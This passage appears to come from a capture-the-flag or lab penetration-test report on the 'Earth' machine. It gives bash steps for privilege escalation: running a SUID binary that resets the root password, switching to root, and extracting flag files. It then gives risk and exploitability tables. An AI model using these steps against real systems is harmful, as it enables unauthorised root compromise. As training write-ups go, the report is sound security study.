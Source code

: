 **Privilege Escalation:**
```bash
# Execute SUID binary
./usr/bin/reset_root

# The binary modifies /etc/shadow to set root password to 'Earth'
# Authenticate as root
su root
# Password: Earth

# Verify root access
whoami              # Output: root
id                  # Output: uid=0(root) gid=0(root)
```

**Root Flag Extraction:**
```bash
find / -name "*flag*" -type f 2>/dev/null
cat /var/earth_web/user_flag.txt
cat /root/root_flag.txt
```

---

## 5. Risk Analysis

### 5.1 Impact Assessment

| CIA Triad | Impact Level | Justification |
|-----------|-------------|---------------|
| **Confidentiality** | 🔴 **High** | Complete system access allows data exfiltration |
| **Integrity** | 🔴 **High** | Root access enables system modification |
| **Availability** | 🟡 **Medium** | Potential for service disruption or data destruction |

### 5.2 Business Risk Factors

**Immediate Risks:**
- Complete system compromise
- Potential lateral movement to other systems
- Data exfiltration capabilities
- Service disruption potential

**Long-term Risks:**
- Regulatory compliance violations
- Reputational damage
- Financial losses from incident response
- Customer trust erosion

### 5.3 Exploitability Assessment

| Factor | Rating | Notes |
|--------|--------|-------|
| **Attack Complexity** | Low | Well-documented techniques |
| **Required Skills** | Intermediate | Basic penetration testing knowledge |
| **Time to Exploit** | < 1 Hour | Rapid compromise possible |
| **Detection Difficulty** | Low | Limited logging and monitoring |

---